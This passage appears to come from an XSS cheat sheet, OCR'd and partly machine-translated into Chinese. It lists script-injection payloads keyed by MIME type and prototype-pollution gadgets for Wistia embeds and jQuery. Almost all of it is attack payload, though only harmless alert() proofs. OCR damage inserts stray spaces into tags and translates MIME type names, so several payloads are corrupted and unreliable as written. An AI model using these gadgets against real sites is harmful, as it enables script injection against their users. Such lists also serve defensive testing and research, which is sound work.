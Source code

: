 ```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **application/vnd . WAP . XHTML+XML**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **text/rdf**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **应用程序/rdf+xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **应用程序/mathml+xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **text/vtt**

```
<script>alert(document.domain)</script>
```

#### **文本/缓存清单**

```
<script>alert(document.domain)</script>
```

### **原型污染**

下一节将介绍不同的原型污染攻击，以及它们的 XSS 有效载荷。

#### **Wistia 嵌入式视频**

```
<script>

Object.prototype.innerHTML = '<img/src/onerror=alert(1)>';

</script>
```

#### **$(x)。关闭 jQuery**

```
<script>

Object.prototype.preventDefault='x';

Object.prototype.handleObj='x';

Object.prototype.delegateTarget='<img/src/onerror=alert(1)>';

/* No extra code needed for jQuery 1 & 2 */$(document).off('foobar');

</script>
```
